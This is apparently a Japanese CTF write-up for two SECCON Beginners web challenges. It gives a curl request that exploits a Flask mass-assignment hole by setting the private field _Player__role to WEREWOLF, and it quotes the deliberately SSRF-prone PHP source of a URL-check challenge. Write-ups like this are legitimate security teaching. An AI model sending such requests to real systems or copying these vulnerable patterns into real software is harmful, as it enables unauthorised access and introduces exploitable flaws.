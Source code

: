 ```
        player = Player()

        for k, v in request.form.items():
            player.__dict__[k] = v

        return render_template('result.html',
            name=player.name,
            color=player.color,
            role=player.role,
            flag=app.FLAG if player.role == 'WEREWOLF' else ''
        )

# ====================

if __name__ == '__main__':
    app.run(host=os.getenv("CTF4B_HOST"), port=os.getenv("CTF4B_PORT"))
```
roleがWEREWOLFになればよい、Playerの初期化ではWEREWOLFにならない。  
```
        for k, v in request.form.items():
            player.__dict__[k] = v
```
この部分でroleをWEREWOLFにすればよい
```
print(player.__dict__)
//{'name': 'test', 'color': 'red', '_Player__role': 'WEREWOLF'}
```
_Player__role=WEREWOLFでフラグ
```
curl 'https://werewolf.quals.beginners.seccon.jp/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'name=a&color=red&_Player__role=WEREWOLF' \
  --compressed
```

ctf4b{there_are_so_many_hackers_among_us}
# check_url 
https://check-url.quals.beginners.seccon.jp/
```<!-- HTML Template -->
          <?php
            error_reporting(0);
            if ($_SERVER["REMOTE_ADDR"] === "127.0.0.1"){
              echo "Hi, Admin or SSSSRFer<br>";
              echo "********************FLAG********************";
            }else{
              echo "Here, take this<br>";
              $url = $_GET["url"];
              if ($url !== "https://www.example.com"){
                $url = preg_replace("/[^a-zA-Z0-9\/:]+/u", "👻", $url); //Super sanitizing
              }
              if(stripos($url,"localhost") !== false || stripos($url,"apache") !== false){
                die("do not hack me!");
              }
              echo "URL: ".$url."<br>";
              $ch = curl_init();
              curl_setopt($ch, CURLOPT_URL, $url);
              curl_setopt($ch, CURLOPT_CONNECTTIMEOUT_MS, 2000);
              curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
              echo "<iframe srcdoc='";
              curl_exec($ch);
              echo "' width='750' height='500'></iframe>";
              curl_close($ch);
            }
```